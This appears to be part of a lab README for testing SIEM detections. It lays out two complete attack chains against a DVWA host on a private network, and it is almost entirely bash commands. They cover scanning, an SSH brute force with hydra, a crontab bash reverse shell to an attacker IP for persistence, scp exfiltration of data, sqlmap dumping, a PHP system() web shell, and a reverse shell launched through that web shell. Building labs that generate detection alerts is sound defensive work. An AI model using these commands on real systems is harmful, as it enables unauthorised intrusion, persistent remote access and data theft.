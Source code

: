 ### Example 1: Complete Attack Chain

```bash
# 1. Reconnaissance
nmap -sV -sC -p- 192.168.1.40

# 2. Vulnerability scanning
nikto -h http://192.168.1.40

# 3. Exploitation (SSH brute force)
hydra -l admin -P small-wordlist.txt ssh://192.168.1.40

# 4. Access gained - establish persistence
ssh admin@192.168.1.40
echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1'" | crontab -

# 5. Lateral movement
nmap -p 3389 192.168.1.30
rdesktop 192.168.1.30

# 6. Data exfiltration
scp sensitive-data.tar.gz kali@192.168.1.50:/tmp/
```

### Example 2: Web Application Attack Chain

```bash
# 1. Directory enumeration
gobuster dir -u http://192.168.1.40 -w /usr/share/wordlists/dirb/common.txt

# 2. Find DVWA
firefox http://192.168.1.40/dvwa/

# 3. SQL injection
sqlmap -u "http://192.168.1.40/dvwa/vulnerabilities/sqli/?id=1" --dump

# 4. Upload web shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
# Upload via vulnerable upload form

# 5. Execute commands
curl "http://192.168.1.40/uploads/shell.php?cmd=whoami"

# 6. Reverse shell
curl "http://192.168.1.40/uploads/shell.php?cmd=bash+-c+'bash+-i+>&+/dev/tcp/192.168.1.50/4444+0>&1'"
```

## Detection Testing

### Generate Specific SIEM Alerts
